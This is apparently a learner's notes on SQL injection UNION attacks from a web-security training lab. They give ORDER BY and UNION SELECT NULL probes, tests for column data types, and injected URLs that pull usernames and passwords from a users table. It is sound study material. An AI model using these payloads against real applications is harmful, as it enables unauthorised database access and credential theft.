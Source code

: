 


  
Retrieving data from other tables  
  
In cases where results of SQL queries are returned within application responses attacker can leverage SQLi to retrieve information from other tables within this DB. It's done by using **UNION** keyword which allows to add another **SELECT** in query and append it into the original query.   
  
  
SELECT a, b FROM table1 UNION SELECT c, d FROM table2   
  
The SQL query will return a single result set with two columns, containing values form columns a, b from table1 and columns c, d from table2, one below another (columns are extended with data from other tables).  
  
Original query:  
  
 ![images/1099-1.png](images/1099-1.png)  
   
 Modified input:  
   
 ![images/1099-2.png](images/1099-2.png)  
  
It lists all usernames and passwords inside users table, along with originally requested products.   
  
**UNION attacks**  
  
For UNION attack to work, two requirements must be met:  
  
• individual queries must return the same number of columns  
• data types in each column must be compatible between individual queries  
  
Which means that before the attack two things need to be checked:  
  
• how many columns are being returned from the original query  
• which columns returned from the original query have the same data type as the one we want to retrieve from injected query  
  
 **Determining number of columns**  
   
 There are two effective methods for this task:  
   
 1. Injecting couple or **ORDER BY** statements.  
   
 ' ORDER BY 1--  
 ' ORDER BY 2--  
 ' ORDER BY 3--  
 etc.  
   
 When page start to return errors, or nothing will start to change it means that our query has reached beyond available number of columns.  
   
 Example  
   
 academy.net/filter?category=Lifestyle' ORDER BY 1--  
 ![images/1099-3.png](images/1099-3.png)  
   
 academy.net/filter?category=Lifestyle' ORDER BY 2--  
 ![images/1099-4.png](images/1099-4.png)  
   
 academy.net/filter?category=Lifestyle' ORDER BY 3--  
 ![images/1099-5.png](images/1099-5.png)  
   
 2. Injecting couple of **UNION SELECT** payloads with **NULL**  
   
 Trial and error method which appends to original query another columns with no values (NULL). It has to be tested couple of times, to determine on which quantity of NULL columns, page will stop sending errors.  
   
 ' UNION SELECT NULL--  
 ' UNION SELECT NULL, NULL--  
 ' UNION SELECT NULL, NULL, NULL--  
 etc.  
   
 Results can be different depending on app's code. In best scenario an extra row should appear on HTML table. In some cases NULL values might trigger a different error, such as “**NullPointerException**”. Worst case is that the response won't differ from original query, meaning with this method we cannot determin number of returned columns.  
   
 In this method a NULL value is used, because it's compatible with every commonly used data type.   
   
 In ORACLE every SELECT statement must use a FROM keyword and specify a valid table. In ORACLE is special table called “**dual**” which can be used for such purpose.  
   
 In MySQL comment at the end of injected query must be followed by a whitespace, alternatively by hash “#” to identify a comment.  
   
 **Finding columns with a useful data type**  
   
 Second requirement is to match data types of original query and injected one. To test what type of values are present in particular columns following payload can be injected (assuming there are three columns in original query).  
   
 ‘ UNION SELECT ’a', NULL, NULL--  
 ‘ UNION SELECT NULL, ’a', NULL--  
 ‘ UNION SELECT NULL, NULL, ’a'--  
   
 At each query if data is not compatible with injected string page will return an error.  
   
 academy.net/filter?category=Lifestyle' UNION SELECT 'a', NULL, NULL--  
   
 ![images/1099-6.png](images/1099-6.png)  
   
 academy.net/filter?category=Lifestyle' UNION SELECT NULL,'a', NULL--  
   
 ![images/1099-7.png](images/1099-7.png)  
   
 **Retrieving data from other tables**  
   
 It's possible to extract user information from users table using UNION attack. Knowing number of returned columns and it's data type, we can merge usernames and password into original query.  
   
 academy.net/filter?category=Pets' UNION SELECT username, password FROM users--  
   
 or   
   
 academy.net/filter?category=Pets' UNION SELECT \* FROM users--  
   
 ![images/1099-8.png](images/1099-8.png)  
   
   
 **Retrieving multiple vales within a single column**  
  
 Nevertheless it seems like query returns a single column, after “NULL test" it looks like it uses two, so the first one has to be empty.   
   
 academy.net/filter?category=Pets' UNION SELECT NULL, username || ‘:’ || password FROM users--  
 ![images/1099-9.png](images/1099-9.png)